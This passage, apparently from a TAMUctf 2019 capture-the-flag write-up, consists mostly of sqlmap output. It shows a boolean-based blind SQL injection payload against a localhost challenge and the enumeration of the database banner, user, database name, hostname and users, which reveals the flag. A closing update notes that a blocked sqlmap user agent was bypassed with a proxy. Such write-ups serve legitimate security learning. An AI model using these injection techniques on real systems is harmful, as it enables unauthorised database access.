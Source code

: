 ```console

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] y
[00:44:36] [INFO] testing connection to the target URL
[00:44:36] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://localhost:8000/? AND 5842=5842
---
[00:44:36] [INFO] testing MySQL
[00:44:36] [INFO] confirming MySQL
[00:44:36] [INFO] the back-end DBMS is MySQL
[00:44:36] [INFO] fetching banner
[00:44:36] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[00:44:36] [INFO] retrieved: 5.7.25-0ubuntu0.18.04.2
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.0
banner:    '5.7.25-0ubuntu0.18.04.2'
[00:45:13] [INFO] fetching current user
[00:45:13] [INFO] retrieved: gigem{w3_4r3_th3_4ggi3s}@localhost
current user:    'gigem{w3_4r3_th3_4ggi3s}@localhost'
[00:46:05] [INFO] fetching current database
[00:46:05] [INFO] retrieved: SqliDB
current database:    'SqliDB'
[00:46:30] [INFO] fetching server hostname
[00:46:30] [INFO] retrieved: 18dfee95a5d1
hostname:    '18dfee95a5d1'
[00:47:21] [INFO] testing if current user is DBA
[00:47:21] [INFO] fetching current user
current user is DBA:    False
[00:47:22] [INFO] fetching database users
[00:47:22] [INFO] fetching number of database users
[00:47:22] [INFO] retrieved: 1
[00:47:25] [INFO] retrieved: 'gigem{w3_4r3_th3_4ggi3s}'@'localhost'
database management system users [1]:
[*] 'gigem{w3_4r3_th3_4ggi3s}'@'localhost'
[00:48:03] [ERROR] user aborted

```

The flag hid as the DB user: gigem{w3_4r3_th3_4ggi3s}



## Update

From reading another writeup ([link](https://medium.com/@noobintheshell/tamuctf2019-writeups-1-360f53008f7a)) it turns out that the reason SQLMap failed is because the SQLMap user agent was being blocked. This explains why the proxy resolved the issue.
